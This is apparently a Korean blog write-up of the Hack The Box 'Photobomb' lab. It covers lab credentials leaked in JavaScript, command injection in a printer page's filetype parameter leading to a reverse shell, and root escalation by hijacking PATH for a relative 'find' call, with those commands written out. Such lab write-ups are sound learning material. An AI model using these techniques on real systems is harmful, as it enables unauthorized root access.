 ```yaml
---
title: Hack The Box - Photobomb
date: 2023-01-18
author: glasses96
categories: [Wargame, Hack The Box]
tags: [Hack The Box, Photobomb, Write-up]
pin: true
math: true
mermaid: true
---
```


> **Hack the Box의 Photobomb을 풀어봅시다.**
{: .prompt-info }

---

## Port Scanning
제일 먼저 nmap을 이용하여 포트스캔을 돌렸을 때 나오는 결과는 다음과 같습니다.

![1](/assets/post/10/1.png)

아래의 포트가 열려있으며 ssh 연결은 ID와 패스워드를 모르니 http 부터 접근을 시도했다.

1. ssh
2. http

-----
# HTTP Service
그냥 접근하면 [http://photobomb.htb/](http://photobomb.htb/) 으로 리다이렉션 되고 접속이 안되지만 hosts 수정을 통해 접속을 할 수 있다.
![2](/assets/post/10/2.png)

페이지 접근시 아래와 같이 웹페이지가 보인다.

![3](/assets/post/10/3.png)

Click here에 접근하게 되면 Basic 인증을 통해 권한 체크를 하는 것으로 보인다.

![4](/assets/post/10/4.png)

JS분석을 통해 photobomb.js 파일에서 URL을 하나 찾았다. [printer](http://pH0t0:b0Mb!@photobomb.htb/printer) 해당 정보로 basic ID와 패스워드를 알 수 있다.

![5](/assets/post/10/5.png)

## Command Injection(RCE)
파일 다운로드 기능 하나가 보여서 파일 다운로드 취약점과 관련이 있을 것으로 판단하여 photo 파라미터에 ../등 인풋을 넣어보았지만 딱히 별 반응이 없다....

![6](/assets/post/10/6.png)

Write-up을 보니 filetype 파라미터 curl 명령어를 통해 내 http 서버로 요청을 시도했는데 응답이 왔다. Command Injection이 가능하여 리버스 쉘을 연결이 가능하다. (흠 요부분이 잘이해가 되지 않는다..)

![7](/assets/post/10/7.png)

Reverse Shell Generator를 이용하여 쉘을 만들어 연결까지 가능하다.

![8](/assets/post/10/8.png)

user.txt를 찾아 FLAG를 찾을 수 있다.

## privilege escalation

다음은 권한 상승을 통해 root flag를 찾아야한다.
sudo -l 으로  사용자 권한을 나열하거나 특정 명령어를 확인하면 /opt/cleanup.sh 에서 root 권한으로 파일을 실행하는 것을 알 수 있다.
```bash
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

/opt/cleanup.sh 파일 내용을 보면 photobomb.log.old 파일에 photobomb.log을 덮어 씌우고 photobomb.log파일 내용을 truncate 명령어로 삭제한다.

맨 마지막 코드에서 권한상승이 가능합니다. (요기서 너무 막혔다 아직 잘 이해가 안됨;;;)
find는 절대 경로 대신에 상대 경로를 사용하기에 환경 변수를 변경하여 현재 디렉토리에 find 파일을 만들어 이안에 쉘을 작성하면 루트 권한을 얻을 수 있다고 합니다.
```bash
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

root 권한이 획득이 가능하다.
```bash
wizard@photobomb:~$ echo "/bin/bash" > find
wizard@photobomb:~$ chmod +x find
wizard@photobomb:~$ echo "sudo PATH=$PWD:$PATH /opt/cleanup.sh
wizard@photobomb:~$ id
id uid=0(root) gid=0(root) groups=0(root)
```
root.txt를 찾아 Flag를 획득할 수 있다.

----
## 후기
해당 문제는 3개의 키워드로 나타낼 수 있을꺼 같다.
1. Javascript를 통해 basic 인증 ID/PASSWORD 찾기
2. /printer 페이지에서 Command Injection (RCE)
3. privilege escalation

사실상 2,3번이 핵심인데 도저히 모르겠어서 Write-up을 참고 하였는데 쉽지가 않다.
우선 해당 취약점이 발생하는 원인부터 다시 공부해야겠다. 후...